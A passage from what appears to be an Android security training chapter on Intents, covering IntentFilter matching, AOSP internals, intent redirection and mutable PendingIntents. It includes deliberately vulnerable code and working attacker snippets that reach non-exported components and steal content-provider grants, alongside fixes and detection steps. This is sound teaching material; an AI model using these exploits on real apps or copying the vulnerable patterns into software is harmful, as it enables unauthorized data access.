>   Domains: youtu.be m.youtube.com youtube.com www.youtube.com studio.youtube.com oauth-redirect.googleusercontent.com
>   Status:  ask
>
>   Package: com.google.android.youtube
>   Domains: youtu.be m.youtube.com youtube.com www.youtube.com studio.youtube.com oauth-redirect.googleusercontent.com
>   Status:  always : 200000001
> ```
>
> Two records for one package, one `ask` and one `always`, and a third answer from `pm get-app-link`.
> When the platform's own readers disagree, **quote all of them** and say that they disagree. Picking
> the one that supports your conclusion is how a finding gets withdrawn in front of a client.

> **⚠️ Warning**
> Do not carry `pm get-app-links` into an Android 11 engagement and report "verification could not be
> determined". Use `dumpsys package domain-preferred-apps` and `pm get-app-link`. Conversely, do not
> carry `dumpsys package domain-preferred-apps` into an Android 12+ engagement and expect it to be
> authoritative — on API 31+ the domain verification state lives in `DomainVerificationService` and
> `pm get-app-links` is the correct reader. `scripts/appstate-linkcheck.sh` in this chapter detects
> the platform version and runs the right one.

The verification states you can see on API 31+, and what each means:

| State | Meaning | Finding? |
|---|---|---|
| `verified` | `assetlinks.json` fetched and matched | No — this is the goal |
| `none` | Never attempted, or no `autoVerify` | Yes, if `autoVerify` is declared |
| `legacy_failure` | The old verifier failed | Yes |
| `1024` / other numeric codes | Internal failure codes (network, parse, mismatch) | Yes — quote the code |
| `Selection state → enabled:` with user selections | The user chose the app manually | Not verification. Say so explicitly in the report |

### 3.12 Version Matrix

| API | Android | Change | Consequence for you |
|---|---|---|---|
| 12 (3.1) | Honeycomb MR1 | Stopped apps excluded from broadcasts by default | Force-stopped apps stop receiving; `FLAG_INCLUDE_STOPPED_PACKAGES` overrides |
| 15 (4.0.3) | ICS MR1 | `Intent.setSelector` added | A second resolution channel |
| 16 (4.1) | Jelly Bean | `ClipData` participates in URI grants | Grants can hide off the data URI |
| 21 (5.0) | Lollipop | **Implicit Intents to `startService`/`bindService` throw** | Client-side check only |
| 23 (6.0) | Marshmallow | `PendingIntent.FLAG_IMMUTABLE` introduced | Available, not default |
| 23 (6.0) | Marshmallow | `android:autoVerify` introduced | App Links become possible |
| 24 (7.0) | Nougat | `file://` across app boundaries throws `FileUriExposedException` | Sender-side; push apps to `FileProvider` |
| 26 (8.0) | Oreo | **Manifest-declared receivers no longer get most implicit broadcasts** | Shrinks the static receiver surface massively |
| 29 (10) | Q | Background Activity starts restricted; `Intent.setIdentifier` added | A redirection payload may start but not come to the foreground |
| 30 (11) | R | **Package visibility filtering** — `queryIntentActivities` returns a filtered list unless `<queries>` or `QUERY_ALL_PACKAGES` | **Your surface-mapping script sees more than the app does.** §7.7 |
| **31 (12)** | S | **`PendingIntent` mutability must be explicit.** Notification trampolines blocked. `pm get-app-links` replaces the legacy verifier | The single most important row |
| 33 (13) | T | Context-registered receivers must declare `RECEIVER_EXPORTED`/`RECEIVER_NOT_EXPORTED`. Intent filters matched more strictly for exported components | Dynamic receivers stop being invisibly exported |
| 34 (14) | U | **Implicit Intents cannot be delivered to non-exported components**; mutable `PendingIntent`s wrapping implicit Intents are restricted | Closes the most-exploited redirection shapes |
| 35 (15) | V | Further `PendingIntent` and background-launch tightening | Re-test old findings |

---

## 4. Source Code Walkthrough (AOSP)

### 4.1 The files that matter

| Path | What lives there |
|---|---|
| `frameworks/base/core/java/android/content/Intent.java` | The message object: every field, every flag constant, `fillIn`, `parseUri`, `toUri`, `prepareToLeaveProcess`, `migrateExtraStreamToClipData` |
| `frameworks/base/core/java/android/content/IntentFilter.java` | **The matching algorithm.** `match()`, `matchAction()`, `matchCategories()`, `matchData()`, `findMimeType()`, and the `MATCH_*` constants |
| `frameworks/base/core/java/android/content/IntentSender.java` | The base class `PendingIntent` extends; the `send()` plumbing |
| `frameworks/base/core/java/android/app/PendingIntent.java` | Creation, flags, `getCreatorUid`/`getCreatorPackage` |
| `frameworks/base/services/core/java/com/android/server/pm/PendingIntentRecord.java`* | The system-side record; where the fill-in is merged and the creator's identity is applied |
| `frameworks/base/services/core/java/com/android/server/IntentResolver.java` | The bucketed index of filters — the data structure `dumpsys` prints |
| `frameworks/base/services/core/java/com/android/server/pm/ComputerEngine.java` | Modern `queryIntentActivitiesInternal` / `resolveIntent` |
| `frameworks/base/services/core/java/com/android/server/wm/ActivityStarter.java` | The Activity start pipeline, including `checkComponentPermission` |
| `frameworks/base/services/core/java/com/android/server/am/BroadcastQueue.java` | Broadcast delivery |
| `frameworks/base/services/core/java/com/android/server/pm/verify/domain/` | `DomainVerificationService` and friends (API 31+) |
| `frameworks/base/core/java/android/os/Bundle.java`, `BaseBundle.java` | Lazy unparcelling of extras |

\* AOSP has moved `PendingIntentRecord.java` between `com.android.server.am` and neighbouring
packages across releases. Search for the class name rather than trusting one path.

### 4.2 `IntentFilter.match()` — the algorithm, traced

The public entry point takes the Intent's decomposed fields rather than an `Intent`, so the same code
serves both in-process matching and the system's resolver:

```java
// frameworks/base/core/java/android/content/IntentFilter.java
public final int match(String action, String type, String scheme,
        Uri data, Set<String> categories, String logTag) {
    if (action != null && !matchAction(action)) {
        return NO_MATCH_ACTION;
    }
    int dataMatch = matchData(type, scheme, data);
    if (dataMatch < 0) {
        return dataMatch;          // NO_MATCH_TYPE or NO_MATCH_DATA
    }
    String categoryMismatch = matchCategories(categories);
    if (categoryMismatch != null) {
        return NO_MATCH_CATEGORY;
    }
    return dataMatch;              // a positive MATCH_CATEGORY_* value
}
```

Four observations that turn this from source into working knowledge.

**`action != null &&`** — the null-action pass rule from §3.4 is right there. An Intent with no action
skips the action test entirely and can match a filter that declares fifty actions.

**The return value is `dataMatch`.** The match *value* comes from the data test, which is why the
measured numbers in §3.6 are all `MATCH_CATEGORY_*` values describing how specifically the URI
matched. A filter that matched on nothing but action and category returns
`MATCH_CATEGORY_EMPTY | MATCH_ADJUSTMENT_NORMAL` = `0x108000` — exactly the value measured for
`ACTION_MAIN`/`CATEGORY_LAUNCHER`.

**Categories are tested last** but are absolute: any mismatch is fatal regardless of how well the
data matched.

**`match()` does not know about `exported`, permissions or UIDs.** It is pure matching. The security
decisions happen later and elsewhere, in `ActivityStarter`. Conflating the two is the root of the
"it has an intent-filter so it is vulnerable" mistake.

#### `matchCategories` — the direction, in code

```java
// frameworks/base/core/java/android/content/IntentFilter.java
public final String matchCategories(Set<String> categories) {
    if (categories == null) return null;              // no categories on the Intent -> pass
    for (String category : categories) {
        if (!hasCategory(category)) return category;  // returns the OFFENDING one
    }
    return null;
}
```

The loop is over the **Intent's** categories, asking whether the **filter** has each one. Nothing
iterates the filter's categories. That is the one-directional rule of §3.4, in five lines. It also
explains the odd return type: the method returns the *name* of the category that failed, so the
platform can log something useful.

#### `findMimeType` — where `*/*` is special-cased

```java
// frameworks/base/core/java/android/content/IntentFilter.java
private final boolean findMimeType(String type) {
    final ArrayList<String> t = mDataTypes;
    if (type == null) return false;
    if (t.contains(type)) return true;
    // Deal with an Intent wanting to match every type in the IntentFilter.
    final int typeLength = type.length();
    if (typeLength == 3 && type.equals("*/*")) {
        return !t.isEmpty();
    }
    // ... then the base-type and "type/*" comparisons
}
```

`type` here is the **Intent's** type. The `*/*` branch says: an Intent asking for everything matches
any filter that declares anything. That is the measured `25` from §3.4 — the union of all typed
filters on the device. The subsequent code handles the mirror case, where the *filter* declares
`type/*` and the Intent supplies a concrete subtype, and the `text/plain` = `text/*` = 14 measurement
exercises exactly that path.

### 4.3 From `startActivity` to the resolver



The two steps to remember from that chain:

`Instrumentation.execStartActivity` is the last code in **your** process. `prepareToLeaveProcess`
runs here — the `file://` check, the `ClipData` migration, and the flag sanitisation. It is a
courtesy, not a control, because the very next line is a Binder call whose arguments a determined
caller could have constructed by hand.

`ActivityStarter.executeRequest` is where the **security** decision is made, and it is made in
`system_server` against `Binder.getCallingUid()`. In essence:

```java
// frameworks/base/services/core/java/com/android/server/wm/ActivityStarter.java
// (shape of the check, not a verbatim excerpt)
boolean abort = false;
if (!mSupervisor.checkStartAnyActivityPermission(intent, aInfo, ..., callingPid, callingUid, ...)) {
    abort = true;
}
...
if (aInfo != null) {
    if (!aInfo.exported && callingUid != aInfo.applicationInfo.uid) {
        // "Permission Denial: starting Intent { ... } from ... not exported from uid ..."
        throw new SecurityException(msg);
    }
    if (aInfo.permission != null &&
            checkComponentPermission(aInfo.permission, callingPid, callingUid, ...)
                    != PERMISSION_GRANTED) {
        throw new SecurityException(msg);
    }
}
```

Those two `throw`s produce the two log lines you will spend your life reading:

```text
Permission Denial: starting Intent { cmp=com.victim/.Secret } from ProcessRecord{...}
    (pid=12345, uid=10234) not exported from uid 10087

Permission Denial: starting Intent { cmp=com.victim/.Admin } from ProcessRecord{...}
    (pid=12345, uid=10234) requires com.victim.permission.ADMIN
```

> **🔬 Under the Hood**
> `callingUid != aInfo.applicationInfo.uid` is the whole of the export check. It is a **UID**
> comparison, not a package comparison — which is why two apps sharing a `sharedUserId` can start
> each other's non-exported components freely, and why an intent-redirection deputy works: by the
> time the deputy calls `startActivity`, `callingUid` **is** the victim's UID.

### 4.4 `PendingIntent` — where the identity substitution happens

Creating one:

```java
// frameworks/base/core/java/android/app/PendingIntent.java
public static PendingIntent getActivity(Context context, int requestCode,
        Intent intent, @Flags int flags, @Nullable Bundle options) {
    // ... resolves the type, then:
    IIntentSender target = ActivityManager.getService().getIntentSenderWithFeature(
            INTENT_SENDER_ACTIVITY, packageName, context.getAttributionTag(),
            null, null, requestCode, new Intent[] { intent },
            resolvedType != null ? new String[] { resolvedType } : null,
            flags, options, context.getUserId());
    return target != null ? new PendingIntent(target, ...) : null;
}
```

The important part is that the object your app holds is a *proxy to a record in `system_server`*. The
Intent is stored **there**, alongside the creating UID, package and (from API 31) the mutability
decision. Your process cannot alter the record afterwards except through `FLAG_UPDATE_CURRENT`, and
another process cannot read the wrapped Intent's extras at all on modern platforms.

Firing one runs, in `PendingIntentRecord.sendInner`, roughly this sequence:

1. If the record is immutable, the fill-in is **ignored** for everything except what `fillIn` would
   have refused anyway.
2. Otherwise `finalIntent.fillIn(fillInIntent, flags)` merges the two — the table in §3.9.
3. `Binder.clearCallingIdentity()` — **this is the identity substitution.** From here on the thread
   is acting as `system_server`, and the subsequent start is attributed to the record's *creator*
   UID, not to whoever called `send()`.
4. The start proceeds through the normal `ActivityStarter` path, so the creator's export and
   permission position applies.

> **🧠 Mental Model**
> Steps 2 and 3 in that order are the vulnerability. The attacker's data is merged **first**, and the
> privileged identity is assumed **second**. `FLAG_IMMUTABLE` is the switch that skips step 2.

### 4.5 The resolver's data structure

`IntentResolver` is a bucketed index, and knowing the buckets makes `dumpsys package` output legible
instantly:

| Bucket field | Holds filters that… |
|---|---|
| `mTypeToFilter` | declare a concrete MIME type (`text/html`) |
| `mBaseTypeToFilter` | declare a partial type (`audio/*`) |
| `mWildTypeToFilter` | declare `*/*` |
| `mSchemeToFilter` | declare a scheme but no type |
| `mActionToFilter` | declare an action and no data at all |
| `mTypedActionToFilter` | declare an action **and** a type |

`queryIntent()` picks the buckets that could possibly match, unions the candidates, and runs
`IntentFilter.match()` on each. This is why `dumpsys package <pkg>` prints headings like
`Non-Data Actions:`, `Full MIME Types:`, `Base MIME Types:`, `Wild MIME Types:` and `Schemes:` — they
are literally the buckets. Measured:

```text
# measured — Redmi, Android 11 / API 30
# adb shell "dumpsys package com.miui.calculator"
Activity Resolver Table:
  Non-Data Actions:
      android.intent.action.MAIN:
        21b9ad0 com.miui.calculator/.cal.CalculatorActivity filter bcc7ac9
          Action: "android.intent.action.MAIN"
          Category: "android.intent.category.DEFAULT"
          Category: "android.intent.category.LAUNCHER"
          Category: "android.intent.category.APP_CALCULATOR"
          Category: "miui.intent.category.SYSAPP_TOOL"
      com.miui.calculator.action.SCIENTIFIC_MODE:
        21b9ad0 com.miui.calculator/.cal.CalculatorActivity filter ce793fc
          Action: "com.miui.calculator.action.SCIENTIFIC_MODE"
          Category: "android.intent.category.DEFAULT"
```

Two custom actions on a stock calculator, both with `CATEGORY_DEFAULT`, both therefore reachable by
implicit `startActivity` from any app on the device. Neither appears anywhere in the app's
user-facing documentation. This is what "the manifest is the attack surface" looks like when you read
it from the platform's own tables instead of from the APK.

### 4.6 Tracing one attribute end to end: `android:autoVerify`

| Layer | Where | What happens |
|---|---|---|
| Source | `AndroidManifest.xml` | `<intent-filter android:autoVerify="true">` |
| Compile | `aapt2` | Becomes attribute resource id `0x0101048f` in AXML with `TYPE_INT_BOOLEAN` |
| Parse | `frameworks/base/core/java/android/content/pm/parsing/…` | Sets `IntentFilter.setAutoVerify(true)` on the parsed filter |
| Install | `frameworks/base/services/core/java/com/android/server/pm/verify/domain/DomainVerificationService.java` (API 31+) | Collects every `https`/`http` host from `autoVerify` filters into a verification request |
| Network | the verification agent | `GET https://<host>/.well-known/assetlinks.json` |
| Record | `DomainVerificationService` state, persisted | Per-host state: verified / failed / none |
| Query | `pm get-app-links` (31+), `pm get-app-link` + `dumpsys package domain-preferred-apps` (≤30) | What you measure |
| Enforce | `ComputerEngine.queryIntentActivitiesInternal` / `filterIfNotSystemUser` and the domain-verification filtering | A verified host's links go to the app with no chooser |

Note that the **enforcement** is a filtering step inside resolution, not a separate mechanism. That
is why an unverified App Link degrades gracefully into an ordinary deep link rather than failing
loudly: nothing is broken, the exclusivity is simply not applied.

---

## 5. Security Perspective

### 5.1 The taxonomy

Every Intent finding you will ever write is one of these six. Learning the taxonomy is worth more
than learning any individual bug.



| Class | One-line shape | Owner chapter |
|---|---|---|
| **Implicit Intent leak** | App sends sensitive data on an Intent whose target the system picks | Here (§5.5) |
| **Intent redirection** | Exported component starts an Intent it received | **Here (§5.2)** — the primitive |
| **Mutable `PendingIntent`** | App hands out a blank cheque signed with its UID | **Here (§5.4)** |
| **Deep-link data injection** | Attacker-controlled URI reaches a dangerous sink | Here (§5.6); WebView specifics belong to chapter 43 |
| **Scheme hijack / unverified App Link** | Attacker's app registers the same filter and wins | Mechanism here (§3.4, §3.11); the OAuth attack is [45-OAuth lab-03](../45-OAuth/labs/lab-03-scheme-hijack.md) |
| **Grant laundering** | Redirection + `FLAG_GRANT_*` steals provider data | Primitive here; the consequence is [27-ContentProviders](../27-ContentProviders/README.md) §5.4 |

### 5.2 Intent redirection — the primitive, in full

> **📖 Definition**
> **Intent redirection** (also "Intent forwarding", and in Google's Play Console warnings "Intent
> Redirection vulnerability") occurs when a component obtains an `Intent` — or the data to build one
> — **from an untrusted source**, and then sends it with `startActivity`, `startService`,
> `bindService`, `sendBroadcast` or `setResult`. The sent Intent carries the **victim app's** UID and
> permissions, so the attacker has borrowed the victim's authority.

#### The vulnerable code — flavour A, the `Parcelable` extra

```java
// examples/RedirectorActivity.java — VULNERABLE
public class RedirectorActivity extends Activity {
    @Override protected void onCreate(Bundle b) {
        super.onCreate(b);
        // A generic "router": whoever calls us tells us where to go next.
        Intent next = getIntent().getParcelableExtra("next");
        if (next != null) {
            startActivity(next);        // <-- sent as OUR uid, with OUR permissions
        }
        finish();
    }
}
```

#### The vulnerable code — flavour B, the string or URI

```java
// examples/RedirectorActivity.java — VULNERABLE, the web-reachable flavour
Uri link = getIntent().getData();                       // e.g. myapp://route?to=<intent uri>
String to = link.getQueryParameter("to");
Intent next = Intent.parseUri(to, Intent.URI_INTENT_SCHEME);
startActivity(next);
```

The two flavours are the same bug with very different reachability, and conflating them will cost you
credibility with a developer:

| | Flavour A — `Parcelable` | Flavour B — string / URI |
|---|---|---|
| Attacker needs | An installed application | Only a link, if the filter is `BROWSABLE` |
| Triggerable from `adb shell am` | **No** — `am` has no Parcelable extra syntax | **Yes** |
| Triggerable from a web page | **No** | **Yes** |
| Can carry arbitrary `Parcelable` extras onward | Yes | Only primitives, via `intent:` syntax |
| Typical severity | High | **Critical** — remote trigger |

That first row of "No"s is measurable and worth checking yourself. The device's `am` help lists
every extra type it supports:

```text
# measured — Redmi, Android 11 / API 30 — adb shell am
    [-e|--es <EXTRA_KEY> <EXTRA_STRING_VALUE> ...]
    [--esn <EXTRA_KEY> ...]      [--ez ... boolean]   [--ei ... int]
    [--el ... long]              [--ef ... float]     [--eu ... uri]
    [--ecn <EXTRA_KEY> <EXTRA_COMPONENT_NAME_VALUE>]
    [--eia|--eial|--ela|--elal|--efa|--efal|--esa|--esal  arrays and lists]
```

Strings, booleans, ints, longs, floats, URIs, `ComponentName`s, and arrays of those. **No
`Parcelable`, and specifically no nested `Intent`.** `Intent.parseUri` cannot express one either
(§3.10). If a chapter or a tool tells you to demonstrate Parcelable-flavour redirection with `am`, it
is wrong, and the demonstration you produce will be of flavour B.

#### Why a competent developer writes this

Not out of carelessness. Every one of these is a real, reasonable design:

- **A deep-link router.** One exported Activity receives every `myapp://` link and dispatches to the
  right internal screen. Passing a whole Intent is the natural generalisation.
- **A login gate.** "Send me where you want to go; I'll authenticate first and then forward you." The
  forwarded Intent has to come from somewhere.
- **A notification trampoline.** The notification carries the Intent to run when tapped.
- **A "share" or "open with" helper.** The caller nominates a target.
- **An SDK.** Analytics, deep-link and attribution SDKs ship exactly this component, and the app
  developer has never read it. Check the merged manifest, not the source
  ([32-Manifest](../32-Manifest/README.md) §3.17).

#### The exploit



The critical line is the one inside `system_server` on the second start. `ActivityStarter`'s check is
`callingUid != aInfo.applicationInfo.uid` (§4.3). On the second start `callingUid` is 10087 — the
victim — and the target is also 10087. Equal. Allowed. The platform did nothing wrong; the victim
handed over its identity voluntarily.

The attacker's code, complete:

```java
// examples/attacker-app/ExploitActivity.java (abridged; the shipped file is fully annotated)
Intent inner = new Intent();
inner.setComponent(new ComponentName("com.pentest.deputy",
                                     "com.pentest.deputy.SecretActivity"));
inner.putExtra("why", "reached a non-exported component");
// Optional accelerants — cost nothing, occasionally multiply impact:
inner.setData(Uri.parse("content://com.pentest.deputy.files/private/1"));
inner.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION
             | Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
             | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION
             | Intent.FLAG_ACTIVITY_FORWARD_RESULT);

Intent outer = new Intent();
outer.setComponent(new ComponentName("com.pentest.deputy",
                                     "com.pentest.deputy.RedirectorActivity"));
outer.putExtra("next", inner);
startActivity(outer);
```

#### What "the victim's privileges" actually buys the attacker

Rank these when writing severity; they are not equivalent:

| Borrowed capability | Impact | How to prove it |
|---|---|---|
| Reach the victim's **non-exported components** | Depends entirely on what they do. Often the highest-value: internal debug screens, admin panels, "developer mode" toggles | Start one and observe |
| Reach a **third app's** components as the victim | Escalation if the victim holds a permission you do not | Target a component gated on a permission the victim holds |
| Launder a **`content://` URI grant** | Read the victim's provider data | [27-ContentProviders](../27-ContentProviders/README.md) §5.4 |
| Send a broadcast **as the victim** | Reach receivers gated on a permission the victim holds | `sendBroadcast` variant of the same bug |
| `setResult` back to the attacker with a grant | Persistable read access | Add `FLAG_ACTIVITY_FORWARD_RESULT` |
| Start a `file://`-carrying Intent as the victim | Read files in the victim's data dir if a component will open them | Rare but devastating |

#### The fix, as code — and why the half-fixes fail

```java
// examples/RedirectorActivityFixed.java — the correct validation
public class RedirectorActivityFixed extends Activity {

    // A closed set. Not a prefix. Not a regex. A set.
    private static final Set<String> ALLOWED = new HashSet<>(Arrays.asList(
            "com.pentest.deputy.DetailActivity",
            "com.pentest.deputy.SettingsActivity"));

    @Override protected void onCreate(Bundle b) {
        super.onCreate(b);
        Intent next = getIntent().getParcelableExtra("next");
        if (next == null) { finish(); return; }

        ComponentName cn = next.resolveActivity(getPackageManager());
        if (cn == null) { finish(); return; }

        // 1. It must be OUR package. Never trust the caller's idea of "our".
        if (!getPackageName().equals(cn.getPackageName())) { finish(); return; }
        // 2. It must be a class we actually intended to be routable.
        if (!ALLOWED.contains(cn.getClassName())) { finish(); return; }
        // 3. Strip every grant flag. We are not lending our authority.
        next.removeFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION
                       | Intent.FLAG_GRANT_WRITE_URI_PERMISSION
                       | Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
                       | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION);
        // 4. Do not let the result channel be redirected past us.
        next.removeFlags(Intent.FLAG_ACTIVITY_FORWARD_RESULT);
        // 5. Re-assert the component explicitly, so nothing about the Intent's
        //    own resolution can change the destination after our check.
        next.setComponent(cn);

        startActivity(next);
        finish();
    }
}
```

| Half-fix seen in the wild | Why it fails |
|---|---|
| `if (next.getComponent().getPackageName().equals(getPackageName()))` | `getComponent()` can be **null** — an implicit inner Intent throws `NullPointerException`, and worse, some code paths treat null as "safe" and forward it. Resolve first. |
| `if (next.getPackage().equals(getPackageName()))` | `mPackage` is a *hint*, not the target. An Intent can have `mPackage` set to your app and a component pointing elsewhere; the component wins. |
| Class-name **prefix** check (`startsWith("com.example.")`) | An attacker cannot usually create a class in your package — but an SDK inside your app can, and prefix checks routinely also allow `com.example.evil.OtherApp` when the check is written against the *package* string of a different app that begins with the same prefix. |
| Allow-listing by **action** instead of component | The action does not determine the target. |
| Checking, then forwarding **the original object** | If you validated `next` but forward `getIntent().getParcelableExtra("next")` a second time, you re-read attacker data. Read once, validate that object, forward that object. |
| `startActivity(next)` after `next.setPackage(getPackageName())` alone | Better than nothing — it does confine the target to your app — but it still permits *any* component of your app, including every non-exported one. That is the bug in a smaller box. |

> **⚠️ Warning — the honest-severity rule**
> **An exported activity that accepts an implicit Intent is not automatically a finding.** Two
> questions decide it, and a report that does not answer both is a scanner's output with your name
> on it:
>
> 1. **Reachability.** Can an ordinary, unprivileged, third-party app actually start it? Not
>    `adb shell` — an app. If it is gated behind a `signature`-level permission, the answer is no and
>    the finding is closed.
> 2. **Consequence.** What does it *do* with the Intent? An exported Activity that reads
>    `getIntent().getStringExtra("title")` and puts it in a `TextView` is not a vulnerability, no
>    matter how loudly a tool flags it. An exported Activity that starts a nested Intent, loads a URL
>    into a WebView, or writes an attacker-named file is.
>
> Write both answers into the finding explicitly. "Exported and reachable from an unprivileged app
> (proven with the attached PoC APK); starts an attacker-supplied Intent, which we used to launch
> `com.victim/.DebugSettingsActivity`, a non-exported component" is a finding. "Activity is exported"
> is not.

### 5.3 Where redirection shows up in the real world

Rather than invent CVE identifiers, here are the **classes** of publicly-documented incident. Each
has occurred multiple times across vendors; describing the class is more useful to you than a number
you would then have to verify.

| Class | Shape | Who ships it |
|---|---|---|
| **OEM system-app redirection** | A pre-installed, system-signed app exposes a router Activity; a third-party app redirects through it to reach system components or launder `content://` grants over privileged providers | Every major OEM has patched at least one; these appear in monthly Android Security Bulletins under "Framework" and vendor bulletins |
| **SDK-injected router** | An analytics/attribution/push SDK contributes an exported Activity that forwards a nested Intent. Hundreds of apps inherit the same bug from one dependency | Play Console's automated "Intent Redirection" warning exists specifically because of this pattern's prevalence |
| **Notification trampoline** | An exported receiver rebroadcasts an Intent taken from an extra, to work around background restrictions | Common in messaging and media apps; partly mitigated by the API 31 trampoline block |
| **WebView bridge redirection** | A JavaScript interface hands a URL to `Intent.parseUri` and starts it, converting a web-page-controlled string into an app-privileged Intent | Chapter 43 — WebView; the `intent:` scheme is the vector |
| **Browser `intent:` handling** | The browser itself is the deputy: a page navigates to `intent:#Intent;component=...;end` | Mitigated by browsers stripping component and grant flags, but non-default browsers get this wrong regularly |

> **🔍 Pentester's Note — bug bounty patterns**
> Redirection is one of the highest-yield classes on mobile bounty programmes precisely because it is
> mechanical to find and hard to auto-triage. The reliable workflow: pull every APK on the device,
> grep the decompiled sources for `getParcelableExtra` within a few lines of `startActivity`, filter
> to exported components with no permission or a `normal`-level one, then write one attacker app that
> takes the target component and inner component as parameters. Most programmes want the PoC APK plus
> a video; `scripts/intent-surface-map.py` in this chapter produces the candidate list, and
> `labs/lab-01-intent-redirection.md` produces the PoC.

### 5.4 Mutable `PendingIntent` — exploitation

#### The vulnerable code

```java
// VULNERABLE — targetSdk 30: mutable by default, and the Intent is blank
Intent blank = new Intent();                       // no component, no action
PendingIntent pi = PendingIntent.getActivity(this, 0, blank, 0);
// handed to another app, or attached to a notification
Bundle payload = new Bundle();
payload.putParcelable("callback", pi);
```

```java
// STILL VULNERABLE — targetSdk 31+: the developer answered the question wrongly
PendingIntent pi = PendingIntent.getActivity(this, 0, new Intent(),
        PendingIntent.FLAG_UPDATE_CURRENT | PendingIntent.FLAG_MUTABLE);
```

#### The exploit

```java
// Attacker: fill in the blank cheque and cash it as the victim.
PendingIntent stolen = bundleFromVictim.getParcelable("callback");

Intent fillIn = new Intent();
fillIn.setComponent(new ComponentName("com.victim", "com.victim.InternalAdminActivity"));
fillIn.putExtra("promote", true);
fillIn.setData(Uri.parse("content://com.victim.provider/secrets/1"));
fillIn.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);

stolen.send(this, 0, fillIn);
// The start is performed by system_server as com.victim's uid.
```

#### Detection, statically

```bash
# host — after jadx-gui or `jadx -d out target.apk`
grep -rn "PendingIntent.get\(Activity\|Broadcast\|Service\|ForegroundService\)" out/sources/ \
  | grep -v "FLAG_IMMUTABLE"
```

Then read every hit and answer three questions in order. Only a "yes, yes, yes" is a finding:

1. Is it mutable? (`FLAG_MUTABLE`, or no flag on `targetSdk <= 30`.)
2. Does the wrapped Intent lack a component (or lack data, if the attack you want is a URI grant)?
3. Does the `PendingIntent` leave the app — into a notification, an extra, a `Bundle` result, a
   widget, or a callback interface?

#### The fix

```java
// FIXED — the default choice for essentially every PendingIntent an app creates
Intent explicit = new Intent(this, MyReplyActivity.class);   // component set
explicit.putExtra("conversation", id);
PendingIntent pi = PendingIntent.getActivity(this, requestCode, explicit,
        PendingIntent.FLAG_UPDATE_CURRENT | PendingIntent.FLAG_IMMUTABLE);
```

```java
// When mutability is genuinely required — RemoteInput replies are the canonical case —
